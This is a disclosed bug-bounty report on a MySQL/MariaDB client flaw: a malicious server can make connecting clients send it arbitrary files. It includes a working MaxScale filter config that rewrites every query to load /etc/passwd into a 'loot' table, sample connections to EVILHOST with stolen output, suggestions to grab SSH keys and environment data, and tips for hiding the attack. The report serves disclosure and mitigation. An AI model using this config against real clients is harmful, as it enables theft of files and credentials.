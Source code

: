 # Malicious Server can force read any file on clients system with default configuration in MySQL Clients

## Report Details
- **Report ID**: 171593
- **URL**: https://hackerone.com/reports/171593
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-24T02:19:09.078Z
- **Disclosed**: 2019-11-12T23:49:28.674Z

## Reporter
- **Username**: tarq
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Although it is [documented](http://dev.mysql.com/doc/refman/5.7/en/load-data-local.html) that the default binary distributions of MySQL/MariaDB/Percona all seem to be compiled with allow local infile enabled, the warning is misleading.

> The transfer of the file from the client host to the server host is initiated by the MySQL server. In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the LOAD DATA statement. Such a server could access any file on the client host to which the client user has read access.


While this is true, what is not stated is that the malicious server can reply with a request to load data to _any_ query, not just manipulating a legitimate `LOAD DATA LOCAL INFILE` request from the Client. A simple example of such an attack can be done using MaxScale as an evil proxy with the following configuration:

```
[EvilFilter]
type=filter
module=regexfilter
options=ignorecase
match=.*
replace=LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE test.loot;
```

This will replace any incoming query with a LOAD DATA query that will be sent to the backend. Upon receiving this query the backend sends the [LOCAL_INFILE_REQUEST](https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Request) packet which will be processed by the client.

### Example attack (MySQL CLI Client):
```
# Evil server:
MariaDB [(none)]> select * from test.loot;
Empty set (0.00 sec)

# Target server:
mysql -utest -h EVILHOST test

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 30985
Server version: 10.0.0 beta-2.0.0-maxscale

Copyright (c) 2000, 2016, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [test]>

# And now back on the evil server, note that no interaction was required on behalf of the target client beyond simply connecting:
MariaDB [(none)]> select * from test.loot LIMIT 5;
+-------------------------------------------------+
| line                                            |
+-------------------------------------------------+
| root:x:0:0:root:/root:/bin/bash                 |
| daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin |
| bin:x:2:2:bin:/bin:/usr/sbin/nologin            |
| sys:x:3:3:sys:/dev:/usr/sbin/nologin            |
| sync:x:4:65534:sync:/bin:/bin/sync              |
+-------------------------------------------------+
5 rows in set (0.00 sec)
````

The evil server can now read any file with the permissions of the client process permissions. If targeting a system administrator, this may include stealing bash histories or SSH private keys. You can also learn more information about your target by grabbing `/proc/self/environ`.


### Example Attack (php_mysqli + php_mysqlnd):

````
$mysqli = mysqli_connect('EVILHOST', 'test', null, 'test', 3306);
$result = mysqli_query($mysqli, "SELECT 1");
$result = mysqli_fetch_assoc($mysqli, $result);
````

### Other Clients

Other vulnerable clients include:

- php-mysql (without open basedir)
- php-mysqli (with and without php-mysqlnd)
- node-mysql
- any library using libmysql included in the binary distributions compiled with ENABLE_LOCAL_INFILE

### Potential Attack Vectors

- Installers for Wordpress, Drupal, vBulletin, etc
- Any applications that allow integration with remote MySQL servers (i.e Zapier, though they specifically aren't vulnerable)
- MITM attacks
- DNS Cache poisoning
- Domain/Type Squatting
- Exposed administration tools such as PHPMyAdmin, although you could just exeute the query yourself in that case :)
- Good ol' social engineering

### Improving the attack
- A smarter evil server could accept any username/password/database name as valid
- Evil server could take steps to hide the attack by manipulating the packets in the result
- Evil server could be changed to not show the table where the stolen information is stored (beyond only giving the attack user INSERT privileges, it could simply not tell the client about that table)


### Mitigation

- Use `local-infile=0` in the `[client]` section of your `/etc/my.cnf` or `~/.my.cnf`
- Make sure your clients are configured to unset that flag if they do not read from configuration files


### Why is this news if it's documented?

- The documentation does not explain the full scope of possible attacks and may lead people to believe they are safe if they never execute a LOAD DATA LOCAL INFILE query
- With an evil server, any query executed can trigger the payload as soon as the client processes the reply. Even if we do not control the queries coming from the application

#### Recommendations

- Insecure defaults should be removed and going forward a clear error message such as "You must use --local-infile in order to use this feature" should be used to guide those who depend on this features
- Tools such as mysqlimport keeping this default is acceptable, the mysql client should not
- Any client library implementations should disable this flag by default


All tests were done on:
- Debian 8
- CentOS 7 
- WHM/cPanel + EasyApache Builds on CentOS 7

With the latest packages available from their respective repos as well as the versions available from the MariaDB repos.

Only default configurations were used, there were no modifications to the configuration files on the target servers. 

## Attachments
No attachments
